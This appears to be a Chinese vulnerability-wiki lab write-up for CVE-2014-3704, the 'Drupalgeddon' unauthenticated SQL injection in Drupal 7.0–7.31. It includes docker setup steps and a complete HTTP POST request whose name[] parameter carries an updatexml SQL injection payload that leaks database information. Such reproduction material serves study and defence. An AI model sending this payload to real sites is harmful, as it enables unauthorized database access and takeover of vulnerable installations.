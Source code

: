 （CVE-2014-3704）Drupal \< 7.32 "Drupalgeddon" sql注入漏洞
==========================================================

一、漏洞简介
------------

Drupal
是一款用量庞大的CMS，其7.0\~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

二、漏洞影响
------------

Drupal 7.0\~7.31

三、复现过程
------------

### 漏洞环境

执行如下命令启动Drupal 7.31环境：

    docker-compose up -d

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2014-3704)Drupal<7.32“Drupalgeddon”sql注入漏洞/media/rId25.png)

安装完成后，访问首页：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2014-3704)Drupal<7.32“Drupalgeddon”sql注入漏洞/media/rId26.png)

### 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

    POST /?q=node&destination=node HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 120

    pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a

可见，信息已被爆出：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2014-3704)Drupal<7.32“Drupalgeddon”sql注入漏洞/media/rId28.png)

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2014-3704/
